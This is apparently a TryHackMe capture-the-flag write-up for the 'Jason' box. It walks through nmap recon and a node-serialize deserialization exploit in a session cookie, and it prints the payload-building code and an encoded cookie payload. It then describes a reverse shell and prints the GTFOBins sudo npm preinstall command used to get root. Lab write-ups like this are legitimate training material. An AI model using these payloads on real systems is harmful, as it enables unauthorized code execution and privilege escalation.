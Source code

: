 # JASON TryHackMe
> 7 November

#### Initial Foothold
Box begins with a nodejs deserialization vulnerability in the `session cookie` value for an initial foothold. However trying to run system commands don't return the output in response. To be sure of the user running web server can run commands via the deserialized cookie value I will just try to ping myself. After being sure of command execution, getting a reverse shell is going to be the next step.

#### Root
Checking for what can our user run as root, reveales `/usr/bin/npm *`. Going over GTFOBins gives the exploit we should run in order to get to root.

## Recon
Beginning with nmap, there are only two TCP ports open. One being SSH on Port 22 other is HTTP on Port 80. Looking over SSH Service information box is probably going to be `Focal`:

![image](https://user-images.githubusercontent.com/68084571/140642075-7ab13a96-6cd6-4dc7-8e02-ab76613d637d.png)

Going over the web service, looks like a nodejs given the information on the main page.

![image](https://user-images.githubusercontent.com/68084571/140642150-25535250-b0ec-4f42-8eb4-49e549313d25.png)

Looking to signing up function with an email address in burp, looks like Web Server assigns the user a session cookie.

![image](https://user-images.githubusercontent.com/68084571/140642217-1bb77e35-d876-4714-a2b1-ff90a0b021ef.png)

After decoding the cookie value, we get a valid json response.
```
$ echo eyJlbWFpbCI6InQifQ== | base64 -d 
{"email":"t"}
```
Using the cookie value assigned to us on the main page;

![image](https://user-images.githubusercontent.com/68084571/140642338-1044b5f3-fb39-4601-9f33-8f6f822956b8.png)

So seeing this made me almost sure of some type of a deserialization attack based on with a given valid serialized json object it processes the value of a parameter and reflects the output. To be sure of the attack phase is going to work or not, let's just send a crafted serialized json object as a cookie value and see the response for ourselves. After going over some research, a [medium blog post](https://medium.com/@chaudharyaditya/insecure-deserialization-3035c6b5766e) welcomes me. Using the provided code for creating a serialized object:
```node
var serialize = require('node-serialize');
x = {
  test : function(){ return 'DESERIALIZE'; }
};
console.log("Serialized: \n" + serialize.serialize(x));
```

However like the post pointed, as we try to run the serialized object generated from the payload the deserialization is not going to work, in order for the exploit work we have to make sure this function will be self invoking by adding `()` at the end.

![image](https://user-images.githubusercontent.com/68084571/140642593-e3061a0f-1b16-4266-8250-69b8a5c50904.png)

Changing the cookie with:

```bash
eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpeyByZXR1cm4gJ0RFU0VSSUFMSVpFJzsgfSgpIn0=
```

![image](https://user-images.githubusercontent.com/68084571/140642719-1120d7c2-a553-4c5e-9ed8-ed1fc6abe813.png)

Now only thing there is to do is trying to execute code on the system and we can achieve it by changing the serialized object that we created a little bit more. Before moving forward to a valid reverse shell I would like to see any commands output wheter they are running also can we see the output from the command that we run.

```node
var serialize = require('node-serialize');
x = {
test : function(){
  require('child_process').execSync("whoami", function puts(error, stdout, stderr) {});
}
};
console.log("Serialized: \n" + serialize.serialize(x));
```

Not so lucky because we only get `We'll keep you updated at: guest`. Looks like we can't se who we are based upon the response, however what we can do is try to ping our attacking machine.

![image](https://user-images.githubusercontent.com/68084571/140642946-4b06cebe-6f1d-4f8a-b5e4-77fafb1fa37f.png)

Clearly we can see that we are executing code on the remote system. Next step will be a reverse shell on the box. To do so I will create a file then curl it from the server and execute it with bash.

### Shell As Dylan

![image](https://user-images.githubusercontent.com/68084571/140643017-32501d08-35fc-4202-9a05-7248096fd439.png)

We are on the box as user `dylan`. After getting a proper tty shell, first thing I will check for is can dylan run any command as root.

```bash
dylan@jason:/opt/webapp$ sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```
### Privesc

Seeing a wildcard that there might be an exploit for this. So going over [GTFOBins](https://gtfobins.github.io/):

```
    TF=$(mktemp -d)
    echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
    sudo npm -C $TF --unsafe-perm i
```

![image](https://user-images.githubusercontent.com/68084571/140643171-2e31ece9-cbb7-4882-9f9d-b7e6d1931e92.png)
